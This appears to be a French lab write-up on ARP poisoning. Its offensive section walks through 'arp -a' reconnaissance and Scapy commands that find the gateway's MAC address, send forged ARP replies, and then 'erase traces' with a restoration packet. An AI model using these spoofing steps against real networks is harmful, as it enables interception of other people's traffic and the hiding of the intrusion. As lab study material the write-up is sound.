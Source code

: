 # Partie 2 ARP poisoning 

## A. Offensive

### ARP Spoofing

**Etapes de l'attaque:** 

- arp -a (repérage)
```
Interface : 192.168.56.1 --- 0xe
  Adresse Internet      Adresse physique      Type
  192.168.56.101        08-00-27-72-b7-65     dynamique
  192.168.56.255        ff-ff-ff-ff-ff-ff     statique
  224.0.0.2             01-00-5e-00-00-02     statique
  224.0.0.22            01-00-5e-00-00-16     statique
  224.0.0.251           01-00-5e-00-00-fb     statique
  224.0.0.252           01-00-5e-00-00-fc     statique
  239.255.255.250       01-00-5e-7f-ff-fa     statique

Interface : 192.168.33.1 --- 0x11
  Adresse Internet      Adresse physique      Type
  192.168.33.255        ff-ff-ff-ff-ff-ff     statique
  224.0.0.2             01-00-5e-00-00-02     statique
  224.0.0.22            01-00-5e-00-00-16     statique
  224.0.0.251           01-00-5e-00-00-fb     statique
  224.0.0.252           01-00-5e-00-00-fc     statique
  239.255.255.250       01-00-5e-7f-ff-fa     statique

Interface : 192.168.10.1 --- 0x17
  Adresse Internet      Adresse physique      Type
  192.168.10.255        ff-ff-ff-ff-ff-ff     statique
  224.0.0.2             01-00-5e-00-00-02     statique
  224.0.0.22            01-00-5e-00-00-16     statique
  224.0.0.251           01-00-5e-00-00-fb     statique
  224.0.0.252           01-00-5e-00-00-fc     statique
  239.255.255.250       01-00-5e-7f-ff-fa     statique

Interface : 192.168.1.82 --- 0x19
  Adresse Internet      Adresse physique      Type
  192.168.1.1           60-35-c0-27-04-a8     dynamique
  192.168.1.36          2c-54-91-c5-4c-5b     dynamique
  192.168.1.58          f0-0f-ec-2f-a2-7d     dynamique
  192.168.1.255         ff-ff-ff-ff-ff-ff     statique
  224.0.0.2             01-00-5e-00-00-02     statique
  224.0.0.22            01-00-5e-00-00-16     statique
  224.0.0.251           01-00-5e-00-00-fb     statique
  224.0.0.252           01-00-5e-00-00-fc     statique
  239.255.255.250       01-00-5e-7f-ff-fa     statique
  255.255.255.255       ff-ff-ff-ff-ff-ff     statique
  ``` 
- Cible trouvé maintenant trouver son addresse physique (MAC)
- On envoit donc un message broadcast
- arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="192.168.1.1")
- arpbroadcast.show()
```
###[ Ethernet ]###
  dst= ff:ff:ff:ff:ff:ff
  src= 1c:87:2c:b8:fd:4f
  type= ARP
###[ ARP ]###
     hwtype= 0x1
     ptype= IPv4
     hwlen= None
     plen= None
     op= who-has
     hwsrc= 1c:87:2c:b8:fd:4f
     psrc= 192.168.1.82
     hwdst= 00:00:00:00:00:00
     pdst= 192.168.1.1
```
- received = srp(arpbroadcast, timeout=2)
```
>>> received[0][0][1].hwsrc
'84:fd:d1:14:a6:9f'
```

- ensuite nous allons envoyer de fausses réponses arp
- arpspoof= ARP(op=2, psrc="192.168.1.1", pdst="192.168.1.82", hwdst="84:fd:d1:14:a6:9f")
- send(arpspoof)

- Attaque terminée maintenant il faut effacer les traces 
- restoration = ARP(op=2, psrc='192.168.1.1', hwsrc="84:fd:d1:14:a6:9f", pdst= '192.168.1.82', hwdst="84:fd:d1:14:a6:9f")



